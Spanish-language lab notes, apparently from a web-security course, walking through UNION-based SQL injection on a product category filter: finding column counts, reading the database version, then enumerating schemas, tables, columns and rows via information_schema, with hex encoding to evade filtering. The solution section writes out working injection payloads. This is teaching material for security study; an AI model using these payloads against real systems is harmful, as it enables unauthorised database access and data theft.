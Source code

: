 En esta clase aplicamos una inyección SQL con UNION para extraer la versión del motor de base de datos, esta vez sobre sistemas como MySQL o Microsoft SQL Server.

La vulnerabilidad está en el filtro de categoría de productos. Al interceptar la solicitud y modificar el parámetro ‘category’, podemos inyectar una consulta adicional que devuelva el valor del sistema.

El proceso consiste en:

- Interceptar la solicitud con Burp Suite y probar distintas combinaciones hasta determinar el número de columnas que devuelve la consulta y cuáles aceptan texto. En este caso, son dos columnas de texto.
- Una vez identificadas, se usa la función ‘**@@version**‘, propia de MySQL y SQL Server, para extraer información del motor y su versión.
- El símbolo ‘**#**‘ se utiliza como comentario para anular el resto de la consulta original.

Esta técnica demuestra cómo, con una inyección bien construida, es posible reconocer el entorno sin necesidad de credenciales o acceso especial.

**Quédate con esto**: Conocer el motor de base de datos desde fuera es el primer paso para afinar futuras inyecciones y adaptar payloads según el sistema objetivo.

![Pasted_image_20250702150520.png](/Imagenes/Pasted_image_20250702150520.png)
Solucion
Primero visualizar cuantas columnas hay ' order by (el numero de mayor a menor)
![Pasted_image_20250702151029.png](/Imagenes/Pasted_image_20250702151029.png)
luego toca jugar con union select para visualizar la version ' union select 1,@@version-- -
![Pasted_image_20250702151254.png](/Imagenes/Pasted_image_20250702151254.png)
despues para enumerar las bases de datos ponemos lo siguiente ' union select 1,schema_name from information_schema.schemata-- -
![Pasted_image_20250702151806.png](/Imagenes/Pasted_image_20250702151806.png)
en caso de que diera error es por que puede ser que tenga mucha informacion por lo que tenemos que poner limites
' union select 1,schema_name from information_schema.schemata limit 0,1-- - y tocaria jugar con el primer numero para que nos empiece a enumerar las BD (importante en esto se hiso con pets necesitamos quitarlo para que iterara por todos los pots)
![Pasted_image_20250702152205.png](/Imagenes/Pasted_image_20250702152205.png)
y para enumerar las tablas en una unica base de datos ' union select NULL,group_concat(schema_name) from information_schema.schemata-- - y modificamos con group concat para que no la mueste todas y quitar limit
![Pasted_image_20250702153247.png](/Imagenes/Pasted_image_20250702153247.png)
entonces para mostrar todas las tablas lo mejor seria utilizar un peticion con GET
![Pasted_image_20250702153757.png](/Imagenes/Pasted_image_20250702153757.png)y para que sea para una BD en especifico ponemos lo siguiente ' union select NULL,table_name from information_schema.tables where table_schema="academy_labs"-- -
![Pasted_image_20250702154236.png](/Imagenes/Pasted_image_20250702154236.png)
en caso de que no funcione por temas de sanitizacion podemos probar con la cadena en hexadecimal
![Pasted_image_20250702154431.png](/Imagenes/Pasted_image_20250702154431.png)
y esto lo ponemos siempre poniendo primero 0x (0x61636164656d795f6c616273) obtenemos el mismo resultado
![Pasted_image_20250702154810.png](/Imagenes/Pasted_image_20250702154810.png)
ahora si quisieramos enumerar las columnas ' union select NULL,column_name from information_schema.columns where table_schema=0x61636164656d795f6c616273 and table_name='products'-- -
![Pasted_image_20250702155107.png](/Imagenes/Pasted_image_20250702155107.png)
En caso de que no mostrar todos los datos hay que jugar con group_concat
' union select NULL,group_concat(column_name) from information_schema.columns where table_schema=0x61636164656d795f6c616273 and table_name='products'-- -
![Pasted_image_20250702155401.png](/Imagenes/Pasted_image_20250702155401.png)
y para mostar los datos de la tabla ' union select NULL,group_concat(category,':') from academy_labs.products-- -
![Pasted_image_20250702160100.png](/Imagenes/Pasted_image_20250702160100.png)
